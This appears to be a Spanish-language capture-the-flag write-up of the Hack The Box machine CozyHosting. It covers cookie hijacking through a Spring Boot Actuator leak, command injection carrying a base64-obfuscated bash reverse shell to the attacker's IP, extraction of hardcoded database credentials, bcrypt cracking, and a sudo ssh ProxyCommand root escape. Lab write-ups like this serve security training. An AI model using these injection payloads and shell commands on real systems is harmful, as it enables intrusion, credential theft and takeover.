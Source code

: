```yaml
---
{"dg-publish":true,"permalink":"/write-ups/hack-the-box/cozy-hosting/","tags":["CTF","write-up","misconfiguration","RCE","linux","easy"]}
---
```


---
![CozyHosting.png](/img/user/attachments/CozyHosting.png)
> [!INFO] Info about CozyHosting
>  CozyHosting is an easy-difficulty Linux machine that features a `Spring Boot` application. The application has the `Actuator` endpoint enabled. Enumerating the endpoint leads to the discovery of a user&amp;#039;s session cookie, leading to authenticated access to the main dashboard. The application is vulnerable to command injection, which is leveraged to gain a reverse shell on the remote machine. Enumerating the application&amp;#039;s `JAR` file, hardcoded credentials are discovered and used to log into the local database. The database contains a hashed password, which once cracked is used to log into the machine as the user `josh`. The user is allowed to run `ssh` as `root`, which is leveraged to fully escalate privileges.

> [!FAQ]- Hints
> No hints.

---
# Active reconnaisance
## Enum ports and services
Se realiza un escaneo de puertos y servicios a la IP de la máquina usando nmap con el comando:
```shell
sudo nmap -sCV -vvv -A -T5 -p- 10.10.11.230
```
Se encuentran abiertos los puertos 22 y 80.
Se realiza un escaneo enfocado a estos puertos de nuevo con nmap:
```shell
sudo nmap -sCV -A -p22,80 10.10.11.230
```

**22/tcp open  ssh**     syn-ack ttl 63 **OpenSSH 8.9p1 Ubuntu 3ubuntu0.3** (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey:
	|   256 4356bca7f2ec46ddc10f83304c2caaa8 (ECDSA)
	| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEpNwlByWMKMm7ZgDWRW+WZ9uHc/0Ehct692T5VBBGaWhA71L+yFgM/SqhtUoy0bO8otHbpy3bPBFtmjqQPsbC8=
	|   256 6f7a6c3fa68de27595d47b71ac4f7e42 (ED25519)
	|ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHVzF8iMVIHgp9xMX9qxvbaoXVg1xkGLo61jXuUAYq5q
**80/tcp open  http**    syn-ack ttl 63 **nginx 1.18.0** (**Ubuntu**)
	|http-title: Cozy Hosting - Home
	|http-server-header: nginx/1.18.0 (Ubuntu)
	|http-favicon: Unknown favicon MD5: 72A61F8058A9468D57C3017158769B1F
	|http-methods:
	|**Supported Methods: GET HEAD OPTIONS**

Encontramos información como la versión del ssh, el puerto 80 usa nginx

---
# Vuln analisis
## Port 80
Se realiza un escaneo al puerto 80 usando "whatweb".
```shell
whatweb 10.10.11.230
```
La parte que interesa es:
RedirectLocation[**http://cozyhosting.htb**]
Por lo tanto hay que agregar la página al archivo "/etc/hosts" usando el comando:
```shell
sudo echo "10.10.11.230 cozyhosting.htb" | sudo tee -a /etc/hosts
```

Al realizar fuzzing no se encontró información relevante.

Al visualizar el error 404 en una página errónea, la página muestra información útil.
![Pasted image 20240224150700.png|700](/img/user/attachments/Pasted%20image%2020240224150700.png)
*This application has no explicit mapping for /error, so you are seeing this as a fallback.*
El texto de error, sirve para buscar información acerca del mismo en la web.
> [!error] Error
> Se encuentra que el error está asociado a una tecnología llamada **spring boot**.

Conociendo la tecnología, se realiza un fuzzing más específico a la página usando wfuzz.
```shell
wfuzz -c --hc=403,404 -t 4 -w /usr/share/seclists/Discovery/Web-Content/spring-boot.txt -u http://cozyhosting.htb/FUZZ
```
Se encuentran varios subdirectorios:
"actuator/env", "actuator", "actuator/env/lang", "actuator/health", "actuator/env/path", "**actuator/sessions**", "actuator/mappings", "actuator/beans"

---
# Exploitation
## Reemplazo de cookie
Se accede a "actuator/sessions", en el que se encuentra información relevante de un usuario y su cookie de sessión:
![Pasted image 20240224151423.png|700](/img/user/attachments/Pasted%20image%2020240224151423.png)

Al entrar a la página cozyhosting.htb/login
Se presenta una página de inicio de sesión, al rellenar los campos de uduario y contraseña con cualquier texto y reemplazar la cookie de la página por la encontrada anteriormente de "kanderson", se recarga la página.
![Pasted image 20240224164342.png|700](/img/user/attachments/Pasted%20image%2020240224164342.png)
Esto permite el acceso a la página de administrador: cozihosting.htb/admin
En la cual, se encuentran dos campos, "Hostname" y "Username"
![Pasted image 20240224174614.png|700](/img/user/attachments/Pasted%20image%2020240224174614.png)
## Capturando la solicitud
Al rellenar la información con cualquier texto (partyhack en este caso), se procede a capturar el la request con burpsuite y posteriormente enviarla al repeater.
Luego de enviar la solicitud analizamos la respuesta del servidor y al parecer está ejecutando algo relacionado con ssh.
![Pasted image 20240224175147.png|700](/img/user/attachments/Pasted%20image%2020240224175147.png)
Intenta ejecutar el comando "ssh" usando como los datos proporcionados: partyhack en ambos casos.
## Probando PING
Teniendo esa información podemos intentar ejecutar comandos en el sistema, usando, en este caso un "ping" a nuestra máquina con reemplazando la línea 15 de la solicitud:
```shell
host=10.10.14.13&username=;ping${IFS}-c${IFS}4${IFS}10.10.14.13;
```

No sin antes haber ejejctado "tcpdump" para poner en escucha con el protocolo ICMP:
```shell
sudo tcpdump ip proto \\icmp -i tun0
```
Ya en escucha, a ejecutar el ping se debería recibirlo como a continuación:
![Pasted image 20240224180231.png|700](/img/user/attachments/Pasted%20image%2020240224180231.png)
## Ejecutando la reverse shell
Se pone en escucha a la máquina local usando netcat en el puerrto 4747 con lo siguiente:
```shell
rlwrap nc -lnvp 4747
```

Se reemplaza la línea con lo siguiente:
```shell
host=10.10.14.13&username=;echo${IFS%??}"YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjEzLzQ3NDcgMD4mMSAg"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
```
Y se envía la solicitud, no sin antes aplicar un url-encode para asegurarse que no haya problemas al anviar los datos.

Si todo se realizó correctamente obtendremos la revershell como el usuario "app"
![Screenshot_20240224_184639.png](/img/user/attachments/Screenshot_20240224_184639.png)

Los usuarios que son de interés son `josh` y `root`, por lo que lo tendremos en cuenta para después.
![Pasted image 20240226222427.png](/img/user/attachments/Pasted%20image%2020240226222427.png)

Al listar los documentos podemos ver un archivo "cloudhosting-0.0.1.jar.jar" que podría contener información relevante.
Para traer ese archivo a nuestra máquina local. Desde la máquina en la que acabamos de ganar acceso montamos un servidor http con python:
```python
python3 -m http.server 4848
```

En nuestra máquina lo traemos con un wget.
```shell
wget 10.10.11.230:4848/cloudhosting-0.0.1.jar
```

Una vez el archivo esté en el directorio local, descomprimirlo con:
```shell
unzip cloudhosting-0.0.1.jar
```

Acceder a la carpeta /BOOT-INF/classes y leer el archivo "application.properties"
```shell
cat application.properties
```
Encontramos las siguientes credenciales, nombre de la base de datos  y que es una base de datos "postgresql".
spring.datasource.url=jdbc:**postgresql**://localhost:5432/**cozyhosting**
spring.datasource.username=**postgres**
spring.datasource.password=**Vg&nvzAQ7XxR**

Ingresamos a la base de datos con los siguientes datos e ingresamos la contraseña cuando se requiera.
```shell
psql -h 127.0.0.1 -U postgres -d cozyhosting
```

Listamos las tablas
![Pasted image 20240226215038.png|400](/img/user/attachments/Pasted%20image%2020240226215038.png)

Mostramos el contenido de las columnas de la tabla `user`
![Pasted image 20240226215454.png|700](/img/user/attachments/Pasted%20image%2020240226215454.png)

Teniendo los hashes de las contraseñas, podemos usar fuerza bruta para descifrar el de el usuario `admin` que nos interesa más. Para esto se puede usar `johntheripper`
```shell
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash
```
El tipo de hash es bcrypt.
![Pasted image 20240226221711.png|700](/img/user/attachments/Pasted%20image%2020240226221711.png)

Ingresamos mediante `ssh` usando la contraseña y el usuario `josh`
```shell
ssh josh@10.10.11.230 -p22
```

Y obtenemos la flag de user:

> [!check]- User flag
> ![Pasted image 20240226223120.png|400](/img/user/attachments/Pasted%20image%2020240226223120.png)

---
# Privilege Escalation
Probamos si ejecutar algún comando como root:
```shell
sudo -l
```

Y vemos que se podemos ejecutar ssh como root.
Por lo tanto escalamos privilegios usando ssh de la siguiente manera:
```shell
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

> [!check]- Root flag
> ![Pasted image 20240226231132.png|400](/img/user/attachments/Pasted%20image%2020240226231132.png)

---
